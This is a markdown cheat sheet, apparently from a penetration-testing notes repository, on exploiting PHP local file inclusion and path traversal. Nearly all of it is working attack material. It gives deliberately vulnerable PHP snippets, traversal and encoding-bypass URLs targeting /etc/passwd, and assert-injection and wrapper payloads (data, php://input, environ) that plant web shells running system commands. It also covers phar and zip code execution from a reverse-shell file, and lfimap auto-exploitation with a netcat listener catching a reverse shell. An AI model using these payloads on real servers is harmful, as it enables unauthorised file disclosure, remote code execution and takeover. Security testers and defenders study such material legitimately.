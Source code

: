 # Local File Inclusion and Path Traversal  

LFI - Executing local server files with PHP 'include', 'include_once', 'require' or 'require_once' functions.  

### Path traversal  
Path traversal means traversing the file structure with '../' or '..\\' sequences in order to read files 'below' the web server file path. Path traversals can be only used to read files on a web server, without execution.

```php
<?php include($_GET['file']); ?>
```

`http://linux_server/site.php?file=/../../../../../../../../../etc/passwd`  
`http://windows_server/site.php?file=\..\..\..\..\..\..\..\..\..\Windows\System32\drivers\etc\hosts`  

### Path normalization
Path normalization is done implicitly within PHP. Multiple subsequent slashes, as well as './' and '/.' are automatically stripped. This can be used to bypass bad sanitization.    
```php
<?php
# Disable inclusion of files ending with 'passwd'
if(substr($_GET['file'], -6, 6) != "passwd"){
   include($_GET['file']);
}
?>
```
`http://server/site.php?file=badfolder../../../../../../../../../../../etc/passwd/.`  
`http://server/site.php?file=badfolder../../../../../../../../../../../././././etc/././passwd/./.`  
`http://server/site.php?file=badfolder../../../../../../../../../../../../..////etc/////passwd/.`  

### Sanitization bypass
`?file=existingfolder/../../../../../../../../etc/passwd`  
`?file=doesnotexist../../../../../../../../../../.././etc/.//.//passwd//.`  
`?file=.+./.+./.+./.+./.+./.+./.+./.+./.+./.+./etc/passwd`  
`?file=....//....//....//....//etc/passwd`   
`?file=..///////..////..//////etc/passwd`  
`?file=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd`  
`?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`  
`?file=%252e/%252e/%252e/%252e/%252e/etc/passwd`  

### Extension blacklist bypass
Extension blacklisting can be bypassed with path normalization technique. By adding nonexisting directory as an argument prefix and normalization string in the end of parameter. Normalization string for linux is '/.' and './' on windows servers.  

```php
<?php
# PHP files are not allowed
if (substr($_GET['file'], -4, 4) != '.php')
   echo file_get_contents($_GET['file']);
else
   echo 'You are not allowed to see php source files!'."\n";
?>
```

`http://linux_server/site.php?file=nonexisting../../../../../../../../var/www/html/test.php/.`  
`http://windows_server/site.php?file=nonexisting..\..\..\..\..\..\..\..\wamp\web\test.php./`

### Assert code injection
If sanitization is done using assert function, injection arbitrary code could be possible.    
```php
<?php
    $file = $_GET['file'];
    assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
?>
```
`http://server/site.php?file=%27.system(%22ls%22).%27`  
`http://server/site.php?file=%27.passthru%28%22ls%22%29.%27`

### Nullbyte injection 
When '.php' is appended, it can be bypassed with nullbyte in php versions before 5.3.4, or if 'magic_quotes_gpc' is set to Off.  
 
```php
<?php include($_GET['file'] . ".php"); ?>
```
`http://server/site.php?file=../../../../../../../../etc/passwd%00`  
`http://server/site.php?file=../../../../../../../../etc/passwd%2500`  
`http://server/site.php?file=../../../../../../../../etc/passwd\0`   


### File wrapper
`http://server/site.php?parameter=file:///etc/passwd`  

### Filter wrapper
Filter wrapper can be used as a bypass method. Loading/Including php file will execute it, therefore source code won't be shown. With filter wrapper source code can be disclosed in a form of encoded string, which will need to be decoded.  
`http://server/site.php?file=php://filter/resource=/etc/passwd`  
`http://server/site.php?file=php://filter/convert.base64-encode/resource=/etc/passwd`  
`http://server/site.php?file=php://filter/read=string.rot13/resource=/etc/passwd` 

### Data wrapper command execution
`http://server/site.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NdKTsgPz4K&c=cat%20/etc/passwd`  

### Input wrapper command execution
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php shell_exec($_GET['cmd']); ?>"`    
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php passthru($_GET['cmd']); ?>"`  
`curl -X POST "http://server/site.php?file=php://input&cmd=cat%20/etc/passwd" -d "<?php echo system($_GET['cmd']); ?>"`  
`curl -X POST "http://server/site.php?file=php://input" -d "<?php echo system('whoami'); ?>"`  

### Expect wrapper command execution
Very rare and by default not enabled.  
`http://server/site.php?file=expect://cat%20/etc/passwd`  

### Zip wrapper code execution
Zip wrapper can be used in order to gain code execution, with uploaded archive that has zipped malicious .php file inside it.    
`http://server/site.php?file=zip://uploads/shell.zip%23shell.php`      

### Phar wrapper code execution
Create malicious phar file with reverse shell or custom malicious code inside it - represented as 'mal.jpg'.  
```php
 <?php
    $p = new PharData(dirname(__FILE__).'/pharfile.zip',0,'pharfile2',Phar::ZIP);
    $x = file_get_contents('./reverse_shell.php');
    $p->addFromString('mal.jpg', $x);
  ?>
```
Compile phar with `php --define phar.readonly=0 create_path.php`  
`http://server/site.php?file=phar://pharfile.zip/mal.jpg`  

### /proc/self/environ code execution
If environ file can be included User-Agent string can be used in order to achieve rce. Make sure User-Agent is inside /proc/self/environ for this to work.       

`curl http://server/index.php?file=/proc/self/environ&cmd=id -H "User-Agent: <?php echo system($_GET['cmd']);?>"`


### Lfimap

[Lfimap](https://github.com/hansmach1ne/lfimap), local file inclusion discovery and exploitation tool.  
Automatically tests lfi WITH filter, data, input, expect and file wrappers and path truncation.

Test GET parameters  
`sudo python3 lfimap.py "http://server/index.php?page=PWN"`  

Test POST parameters   
`sudo python3 lfimap.py "http://server/index.php" -D "page=PWN"`  


Exploit vulnerable target automatically    
`sudo rlwrap nc -nvlp 99`  
`sudo python3 lfimap.py "http://server/index.php?page=PWN" -x --lhost <ip> --lport 99`

